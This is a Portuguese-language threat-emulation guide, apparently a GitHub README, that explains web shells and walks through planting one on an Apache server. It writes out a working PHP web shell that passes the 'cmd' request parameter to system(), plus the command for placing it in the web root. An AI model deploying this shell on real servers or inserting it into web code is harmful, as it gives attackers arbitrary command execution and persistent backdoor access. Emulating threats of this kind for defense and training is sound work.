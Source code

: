 Um web shell é um backdoor instalado em um servidor web por um invasor. Uma vez instalado, ele se torna o ponto de apoio inicial do invasor e, se nunca for detectado, então se torna um backdoor fácil e persistente.

No nosso exemplo, para instalar um web shell, adicionamos um arquivo **.php** inválido dentro. `/var/www/html`. Alguns motivos pelos quais isso pode acontecer são:

- o aplicativo da web tem uma API de upload vulnerável
- o aplicativo da web tem uma vulnerabilidade crítica de RCE
- o invasor tem acesso existente que pode modificar o conteúdo da pasta raiz da web

Se o invasor puder enviar arquivos maliciosos que sejam executados como .php, ele poderá obter acesso remoto à máquina. Neste guia vou fornecer passos detalhados, comandos e exemplos de scripts para diferentes servidores web (Apache, Nginx, Tomcat). Isso incluirá a colocação de uma Web Shell e a configuração de uma shell reversa para o atacante. 

## Emulação de Ameaça I - Instalando Web Shell (PHP) no Servidor Apache

Neste tópico iremos executar um Web Shell desenvolvido em PHP, seguindo o contexto no qual um servidor web está hospedado no Servidor Apache.

Supondo que já temos o RCE, adicionamos um arquivo php `shell.php` que conterá nosso web shell e nossa shell reversa:

```zsh
nano /var/www/html/shell.php
``` 

Escolha qualquer exemplos de shells web php. Por exemplo:

```zsh
<html>  
<body>  
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">  
<input type="TEXT" name="cmd" id="cmd" size="80">  
<input type="SUBMIT" value="Execute">  
</form>  
<pre>  
<?php  
    if(isset($_GET['cmd']))  
    {  
        system($_GET['cmd']);  
    }  
?>  
</pre>
```

> [!NOTE]
> Este é apena um exemplo de um shell web php simples. O shell web utilizado em nossa emulação de ataque é um pouco mais complexo e será disponibilizado caso haja interesse. Basta contactar o analista criador deste guia.

Agora, qualquer pessoa com acesso `http://ip_servidor_vítima/shell.php` poderá acessar o shell da web e executar comandos arbitrários.
